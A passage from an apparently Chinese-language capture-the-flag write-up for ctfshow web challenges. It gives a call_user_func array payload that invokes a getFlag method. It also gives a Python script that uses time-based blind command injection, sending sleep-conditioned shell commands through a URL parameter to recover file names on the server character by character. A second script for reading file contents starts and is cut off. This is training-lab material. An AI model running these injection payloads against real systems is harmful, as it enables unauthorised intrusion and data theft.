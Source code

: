 多过滤了冒号

call_user_func函数不仅可以传入字符串，还可以传入数组

```
call_user_func(array($classname,'getFlag'));
可以调用classname类中的getFlag方法
```

payload：

```
ctfshow[0]=ctfshow&ctfshow[1]=getFlag
```

## web139(136plus盲打)

```
源码与136一样，但是限制了写的权限，这时候可以考虑用盲打的方式
```

猜测文件名

```python
import requests
import time
import string

str = string.ascii_letters+string.digits+"_"
# print(str)
result=""
for i in range(1,5):
	key=0
	for j in range(1,15):
		if key=='1':
			break
		for n in str:
			payload="if [ `ls /|awk 'NR=={0}'|cut -c {1}` == {2} ];then sleep 3;fi".format(i,j,n)
			# print(payload)
			url="http://5aed66c4-83fa-4bb6-804d-ee0846827b8d.challenge.ctf.show/?c="+payload
			try:
				requests.get(url,timeout=(2.5,2.5))
			except:
			    result=result+n
			    print(result)
			    break
			if n=='_':
				key=1
	result+=" "
```

![image-20240117192329149](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20240117192329149.png)

猜测文件内容

```python
import requests
import time
import string


str = string.digits+string.ascii_lowercase+"-"
result=""
key=0
for j in range(1,45):
	# print(j)
	if key==1:
		break
	for n in str:
```